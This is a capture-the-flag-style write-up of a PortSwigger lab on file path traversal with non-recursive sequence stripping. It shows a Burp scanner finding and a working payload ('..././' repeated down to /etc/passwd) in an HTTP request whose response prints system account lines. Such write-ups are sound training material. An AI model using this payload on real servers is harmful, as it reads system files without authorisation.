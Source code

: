 # [Lab: File path traversal, traversal sequences stripped non-recursively](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)

## Lab

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Scan

- burpsuite scanner detected
  - `File path traversal`
  - `/image`
  - The payload `..././..././..././..././..././..././..././..././..././..././etc/passwd` was submitted in the filename parameter. The requested file was returned in the application's response.

## Solutions

```http
GET /image?filename=..././..././..././..././..././..././..././..././..././..././etc/passwd

HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 2262

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```
